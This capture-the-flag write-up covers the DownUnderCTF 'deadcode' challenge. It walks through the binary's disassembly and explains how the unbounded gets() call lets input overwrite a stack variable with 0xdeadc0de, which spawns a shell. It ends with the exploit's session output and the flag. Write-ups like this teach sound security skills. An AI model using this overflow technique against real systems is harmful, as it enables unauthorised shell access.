 For this challenge, we are presented with a single binary named "deadcode". When we run it, we get the following output and it hangs waiting for user input.

```
$ ./deadcode 

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?
```

Here's the disassembly of the main() function.

```asm
┌ 114: main ();
│           ; var int64_t var_20h @ rbp-0x20
│           ; var int64_t var_8h @ rbp-0x8
│           0x00401195      55             push rbp
│           0x00401196      4889e5         mov rbp, rsp
│           0x00401199      4883ec20       sub rsp, 0x20
│           0x0040119d      48c745f80000.  mov qword [var_8h], 0
│           0x004011a5      b800000000     mov eax, 0
│           0x004011aa      e8a3ffffff     call sym.buffer_init
│           0x004011af      488d3d520e00.  lea rdi, qword str.I_m_developing_this_new_application_in_C__I_ve_setup_some_code_for_the_new_features_but_it_s_not__a_live_yet. ; 0x402008 ; "\nI'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet."
│           0x004011b6      e875feffff     call sym.imp.puts
│           0x004011bb      488d3db60e00.  lea rdi, qword str.What_features_would_you_like_to_see_in_my_app ; 0x402078 ; "\nWhat features would you like to see in my app?"
│           0x004011c2      e869feffff     call sym.imp.puts
│           0x004011c7      488d45e0       lea rax, qword [var_20h]
│           0x004011cb      4889c7         mov rdi, rax
│           0x004011ce      b800000000     mov eax, 0
│           0x004011d3      e888feffff     call sym.imp.gets
│           0x004011d8      b8dec0adde     mov eax, 0xdeadc0de
│           0x004011dd      483945f8       cmp qword [var_8h], rax
│       ┌─< 0x004011e1      751d           jne 0x401200
│       │   0x004011e3      488d3dbe0e00.  lea rdi, qword str.Maybe_this_code_isn_t_so_dead... ; 0x4020a8 ; "\n\nMaybe this code isn't so dead..."
│       │   0x004011ea      e841feffff     call sym.imp.puts
│       │   0x004011ef      488d3dd50e00.  lea rdi, qword str.bin_sh   ; 0x4020cb ; "/bin/sh"
│       │   0x004011f6      b800000000     mov eax, 0
│       │   0x004011fb      e850feffff     call sym.imp.system
│       └─> 0x00401200      b800000000     mov eax, 0
│           0x00401205      c9             leave
└           0x00401206      c3             ret

```

In the prologue we can see that it's making 32 bytes (0x20) of space on the stack and then setting the last eight bytes to 0x0. Next it calls a buffer_init() function which disables buffering on standard input, standard out, and standard error which is commonly done in these types of problems. Next, it prints out the two lines we saw when we ran it by calling puts() twice. Next it calls gets() to read input from the user and stores it starting at the 32 byte space it made on the stack. Finally it checks to see whether the value represented by the last eight bytes of the space it made on the stack (and which it had previous set to 0x0) is equal to 0xdeadc0de and if not it jumps to the epilogue and exits. If the last eight bytes do contain that value, it falls through into code which prints out another string using puts() and then calls system("/bin/sh").

The gets() function reads user input until it encounters a newline character and there is no way for the programmer to limit the maximum amount of characters which the user sends before sending a newline character. Therefore, all that we need to do in order to write 0xdeadcode into the last eight bytes of the buffer is to send 24 characters of filler followed by the little-endian representation of the number 0xdeadcode.

Here's the output when run against the challenge server:

```
$ python deadcode.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode


Maybe this code isn't so dead...
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}
```

